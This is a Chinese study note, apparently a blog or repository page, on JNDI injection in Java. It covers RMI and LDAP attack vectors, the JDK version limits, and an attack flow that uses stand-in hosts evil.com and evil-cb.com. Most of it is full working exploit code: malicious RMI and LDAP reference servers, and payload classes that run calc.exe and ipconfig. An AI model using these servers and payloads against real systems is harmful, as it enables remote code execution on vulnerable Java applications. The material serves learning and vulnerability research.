






# JNDI学习

## JNDI基础知识

原文：https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/

几乎“照搬”原文，参照学习记录下来，方便查看（非copy）学习时需要自己跟着模仿

`JNDI`全称为 `Java Naming and DirectoryInterface`（Java命名和目录接口）是一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义用户、网络、机器、对象和服务等各种资源。

JNDI支持的服务主要有：

```plain
1. DNS：域名服务
1. LDAP：轻量级目录访问协议
1. CORBA：公共对象请求代理结构服务
1. RMI：Java远程方法调用注册
```


漏洞中涉及最多的是RMI（反序列化漏洞调用远程方法）LDAP这两个服务接口。

当`lookup`函数的参数`url`可控时，就是JNDI注入。

代码看一下

```java
//Persom.java
package JNDI;

import java.io.Serializable;
import java.rmi.Remote;

class Person implements Remote, Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    private String password;
    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public String getPassword() {
        return password;
    }
    public String toString(){
        return "name: "+name+" password: "+password;
    }
}
```

服务端

```java
//Server.java
package JNDI;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;

public class Server {
    public static void initPerson() throws Exception {
        LocateRegistry.createRegistry(3344);
        System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://localhost:3344");
        //初始化
        InitialContext ctx = new InitialContext();
        //实例化Person对象
        Person p = new Person();
        p.setName("m0re");
        p.setPassword("123456");
        //绑定JNDI服务
        ctx.bind("person", p);
        ctx.close();
    }
    public static void findPerson() throws Exception{
        InitialContext ctx = new InitialContext();
        //通过lookup查找person对象
        Person person = (Person) ctx.lookup("person");
        //打印一下
        System.out.println(person.toString());
        ctx.close();
    }

    public static void main(String[] args) throws Exception{
        initPerson();
        findPerson();
    }
}
```

运行Server的程序，`findPerson()`函数会成功从启动的JNDI服务中找到指定的对象并输出出来



### Reference类

Reference类表示对存在于命名/目录系统以外的对象的引用。

Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。

在使用Reference时，我们可以直接将对象写在构造方法中，当被调用时，对象的方法就会被触发。

几个比较关键的属性：

- className：远程加载时所使用的类名；
- classFactory：加载的class中需要实例化类的名称；
- classFactoryLocation：远程加载类的地址，提供classes数据的地址可以是file/ftp/http等协议；

## JNDI注入

要想成功利用JNDI注入漏洞，重要的前提就是当前Java环境的JDK版本，而JNDI注入中不同的攻击向量和利用方式所被限制的版本号都有点不一样。

- JDK  6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK  6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

因此，我们在进行JNDI注入之前，必须知道当前环境JDK版本这一前提条件，只有JDK版本在可利用的范围内才满足我们进行JNDI注入的前提条件。

### RMI攻击向量

#### RMI+Reference利用技巧

JNDI提供了一个Reference类来表示某个对象的引用，这个类中包含被引用对象的类信息和地址。

因为在JNDI中，对象传递要么是序列化方式存储（对象的拷贝，对应按值传递），要么是按照引用（对象的引用，对应按引用传递）来存储，当序列化不好用的时候，我们可以使用Reference将对象存储在JNDI系统中。

**将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行**。


1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj`想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

代码示例：（jdk版本大概在`jdk1.8.0_65-jdk1.8.0_91`其他没试过，应该1.8问题不大。）

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIService {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
}
import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIClient {
    public static void main(String[] args) throws Exception{
        if(args.length< 1 ) {
            System.out.println("Usage: java JNDIClient <url>");
            System.exit(-1);
        }
        String url = args[0];
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with "+ url);
        ctx.lookup(url);
    }
}
public class EvilObject {
    public EvilObject() throws Exception{
        Runtime rt = Runtime.getRuntime();
        String[] command = {"cmd", "/C", "calc.exe"};
        Process pc = rt.exec(command);
        pc.waitFor();
    }
}
```

需要注意的一点，需要将三个文件分别使用`javac`在命令行进行编译，如果是在IDEA中编写的代码，记得先把`package xxx;`删除掉，然后再进行编译，最好三个文件在不同的文件夹内，而为了不使`EvilObject.class`文件在漏洞复现过程中应用端实例化``EvilObject`对象时从`CLASSPATH`当前路径找到编译好的字节代码，而不去远端进行下载的情况发生。

然后使用python起一个http服务器在`8080`端口（在EvilObject文件所在目录启动服务）（**记得关掉burp代理**）



成功实现JNDI注入。

#### lookup参数注入

当JNDI客户端的lookup()函数的参数可控即URI可控时，根据JNDI协议动态转换的原理，攻击者可以传入恶意URI地址指向攻击者的RMI注册表服务，以使受害者客户端加载绑定在攻击者RMI注册表服务上的恶意类，从而实现远程代码执行。

代码试试效果。环境提前声明：jdk1.8.0_65

```java
//AServer.java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class AServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(1688);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", "test");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*] Binding 'exp' to 'rmi://127.0.0.1:1688/exp'");
        registry.bind("exp", refObjWrapper);
    }
}
//AClient.java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Properties;

public class AClient {
    public static void main(String[] args) throws Exception{
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        Context ctx = new InitialContext(env);
        String url = "";
        if(args.length == 1) {
            url = args[0];
            System.out.println("[*] Using lookup() to fetch object with "+ url);
            ctx.lookup(url);
        } else {
            System.out.println("[*] Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
            ctx.lookup("demo");
        }
    }
}
//EvilClassFactory.java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.Hashtable;

public class EvilClassFactory extends UnicastRemoteObject implements ObjectFactory {
    public EvilClassFactory() throws RemoteException{
        super();
        InputStream inputStream;
        try {
            inputStream = Runtime.getRuntime().exec("ipconfig").getInputStream();
            BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(bufferedInputStream));
            String linestr;
            while ((linestr = bufferedReader.readLine()) != null){
                System.out.println(linestr);
            }
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

还是不加package进行编译。将`AServer`服务端和恶意类`EvilClassFactory.class`放在同一目录下，至于客户端就随意放了。

`AServer.java`，是攻击者搭建的恶意`RMI`注册表服务而非原本正常的本地`RMI`注册表服务（做漏洞演示就没必要写正常的服务端那部分了），其将恶意`Reference`类绑定到`RMI`注册表中，用于给`JNDI`客户端加载并执行恶意代码（注意这里的`Reference`类初始化时其第三个参数即`factoryLocation`参数随意设置了一个内容，将该恶意类放在与当前`RMI`注册表服务同一目录中，当然也可以修改该参数为某个URI去加载，但是需要注意的是URL不用指定到特定的class、只需给出该class所在的URL路径即可）

`AClient.java`，是`JNDI`客户端，原本上下文环境已经设置了默认连接本地的`1099`端口的`RMI`注册表服务，同时程序允许用户输入URI地址来动态转换`JNDI`的访问地址，即此处`lookup()`函数的参数可控

编写恶意`EvilClassFactory`类，目标是在客户端执行`ipconfig`命令，将其编译成class文件后与`AServer`放置于同一目录下

模拟场景，攻击者开启恶意`RMI`注册表服务`AServer`，同时恶意类`EvilClassFactory`放置在同一环境中，由于`JNDI`客户端的`lookup()`函数参数可控，因为当客户端输入指向`AServer`的URI进行`lookup`操作时就会触发`JNDI`注入漏洞，导致远程代码执行。



#### 漏洞点2——classFactoryLocation参数注入

前面lookup()参数注入是基于RMI客户端的，也是最常见的。而本小节的classFactoryLocation参数注入则是对于RMI服务端而言的，也就是说服务端程序在调用Reference()初始化参数时，其中的classFactoryLocation参数外部可控，导致存在JNDI注入。



示例代码：

```java
//BClient.java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Properties;

public class BClient {
    public static void main(String[] args) throws Exception{
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        Context ctx = new InitialContext(env);
        System.out.println("[*] Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
        ctx.lookup("demo");
    }
}
//BServer.java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class BServer {
    public static void main(String[] args) throws Exception{
        String url = "";
        if(args.length == 1){
            url = args[0];
        }else {
            url = "http://127.0.0.1/demo.class";
        }
        System.out.println("[*] ClassFactoryLocation: " + url);
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", url);
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*] Binding 'demo' to 'rmi://192.168.136.1:1099/demo'");
        registry.bind("demo", refObjWrapper);
    }
}
//EvilClassFactory.java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.Hashtable;

public class EvilClassFactory extends UnicastRemoteObject implements ObjectFactory {
    public EvilClassFactory() throws RemoteException{
        super();
        InputStream inputStream;
        try {
            inputStream = Runtime.getRuntime().exec("calc.exe").getInputStream();
            BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(bufferedInputStream));
            String linestr;
            while ((linestr = bufferedReader.readLine()) != null){
                System.out.println(linestr);
            }
        }catch (IOException e){
            e.printStackTrace();
        }

    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

攻击者将恶意类`EvilClassFactory.class`放置在自己的Web服务器后，通过往`RMI`注册表服务端的`classFactoryLocation`参数输入攻击者的Web服务器地址后，当受害者的`RMI`客户端通过`JNDI`来查询`RMI`注册表中年绑定的demo对象时，会找到`classFactoryLocation`参数被修改的`Reference`对象，再远程加载攻击者服务器上的恶意类`EvilClassFactory.class`，从而导致`JNDI`注入、实现远程代码执行



#### 漏洞点3——RMI恶意远程对象

攻击者实现一个`RMI`恶意远程对象并绑定到`RMI Registry`上，编译后的`RMI`远程对象类可以放在`HTTP/FTP/SMB`等服务器上，这个`Codebase`地址由远程服务器的  `java.rmi.server.codebase` 属性设置，供受害者的`RMI`客户端远程加载，`RMI`客户端在 `lookup()`  的过程中，会先尝试在本地`CLASSPATH`中去获取对应的Stub类的定义，并从本地加载，然而如果在本地无法找到，`RMI`客户端则会向远程`Codebase`去获取攻击者指定的恶意对象，这种方式将会受到 `useCodebaseOnly` 的限制。利用条件如下：

1. `RMI`客户端的上下文环境允许访问远程`Codebase`。
2. 属性 `java.rmi.server.useCodebaseOnly` 的值必需为`false`。

然而从`JDK 6u45`、`7u21`开始，`java.rmi.server.useCodebaseOnly`  的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从`CLASSPATH`和当前`VM`的`java.rmi.server.codebase` 指定路径加载类文件。使用这个属性来防止客户端`VM`从其他`Codebase`地址上动态加载类，增加了`RMI ClassLoader`的安全性。

利用条件比较苛刻

#### 漏洞点4——结合反序列化漏洞

漏洞类重写的`readObject()`方法中直接或间接调用了可被外部控制的lookup()方法，导致攻击者可以通过`JNDI`注入来进行反序列化漏洞的利用。

### LDAP攻击向量

通过LDAP攻击向量来利用JNDI注入的原理和RMI攻击向量是一样的，区别只是换了个媒介而已

#### LDAP+Reference利用技巧

除了`RMI`服务之外，`JNDI`还可以对接`LDAP`服务，且`LDAP`也能返回`JNDI Reference`对象，利用过程与上面`RMI Reference`基本一致，只是`lookup()`中的URL为一个`LDAP`地址如`ldap://xxx/xxx`，由攻击者控制的`LDAP`服务端返回一个恶意的`JNDI Reference`对象。

注意一点就是，`LDAP+Reference`的技巧远程加载`Factory`类不受`RMI+Reference`中的`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制，所以适用范围更广。但在`JDK 8u191`、`7u201`、`6u211`之后，`com.sun.jndi.ldap.object.trustURLCodebase`属性的默认值被设置为`false`，对`LDAP Reference`远程工厂类的加载增加了限制。

所以，当`JDK`版本介于`8u191`、`7u201`、`6u211`与`6u141`、`7u131`、`8u121`之间时，我们就可以利用`LDAP+Reference`的技巧来进行`JNDI`注入的利用。

因此，这种利用方式的前提条件就是目标环境的`JDK`版本在`JDK8u191`、`7u201`、`6u211`以下。

```java
//LdapServer.java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.*;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


public class LdapServer {
    private static final String LDAP_BASE = "dc=example, dc=com";

    public static void main(String[] args) {
        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor{
        private URL codebase;
        public OperationInterceptor(URL cb ){
            this.codebase = cb;
        }
        public void processSearchResult(InMemoryInterceptedSearchResult result){
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }catch (Exception e1){
                e1.printStackTrace();
            }
        }
        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException{
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + "redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0){
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
//LdapClient.java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LdapClient {
    public static void main(String[] args) throws Exception{
        try {
            Context ctx = new InitialContext();
            ctx.lookup("ldap://localhost:1234/EvilObject");
            String data = "This is LDAP Client.";
        }
        catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
//EvilObject.java
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

也是执行成功了....

